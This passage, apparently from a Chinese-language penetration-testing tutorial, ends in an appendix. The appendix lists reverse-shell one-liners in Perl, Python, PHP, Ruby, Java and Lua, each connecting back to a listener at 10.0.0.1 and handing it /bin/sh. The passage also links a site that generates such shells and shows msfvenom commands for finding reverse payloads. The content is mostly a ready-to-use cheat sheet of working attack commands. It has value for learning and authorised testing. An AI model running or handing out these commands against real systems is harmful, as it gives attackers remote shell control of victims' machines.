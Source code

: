 最后推荐一个收集反弹 shell 的网站： https://krober.biz/misc/reverse\_shell.php?ip=127.0.0.1&port=8888 ，里面常见的反弹 shell 都可以看到

## 6、附录

### 1、各脚本语言反弹shell方式

```text
## perl 版本： 

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

## python 版本： 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## php 版本： 

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## ruby 版本： 

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## java  版本： 

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

## lua 版本： 

lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 2、若使用msfvenom

学习过程中发现其实强大的 MSF 框架也为我们提供了生成一句话反弹 shell 的工具，即msfvenom 。绝对的实用，当我们不记得前面说的所有反弹 shell 的反弹语句时，只要我们有 Metasploit, 随时我们都可以使用 msfvenom -l 来查询生成我们所需要的各类命令行一句话

1、查询 payload 具体路径

我们直接可以使用 msfvenom -l 结合关键字过滤（如 cmd/unix/reverse ），找出我们需要的各类反弹一句话 payload 的路径信息

```text
msfvenom -l payloads 'cmd/unix/reverse'
```

